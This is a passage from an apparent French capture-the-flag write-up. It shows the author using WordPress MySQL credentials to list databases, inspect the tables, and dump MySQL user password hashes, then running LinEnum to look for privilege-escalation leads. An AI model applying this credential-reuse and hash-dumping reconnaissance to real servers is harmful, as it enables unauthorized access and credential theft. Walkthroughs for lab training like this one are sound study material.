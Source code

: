 Les identifiants MySQL pour le Wordpress laissent supposer en accès restreint mais en fait on peut fouiller dans d'autres bases de données :  

```plain
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| contra             |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
6 rows in set (0.00 sec)
```

La base contra nous semblait toute destinée mais les tables étaient vides :  

```plain
mysql> use contra;
Database changed
mysql> show tables;
show tables;
+------------------+
| Tables_in_contra |
+------------------+
| credentials      |
| creds            |
+------------------+
2 rows in set (0.00 sec)
```

Quand aux utilisateurs mysql c'est tout comme (donc pas de password reuse en perspective):  

```plain
mysql> select User, authentication_string from user;
select User, authentication_string from user;
+------------------+-------------------------------------------+
| User             | authentication_string                     |
+------------------+-------------------------------------------+
| root             |                                           |
| mysql.session    | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| mysql.sys        | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| debian-sys-maint | *F1F2CA42948B3A91A115008DFCD881598A28445A |
| username         | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+------------------+-------------------------------------------+
5 rows in set (0.00 sec)
```

J'ai exécuté LinEnum histoire de détecter des anomalies et quelque chose de particulier m'a mené dans la bonne direction :  
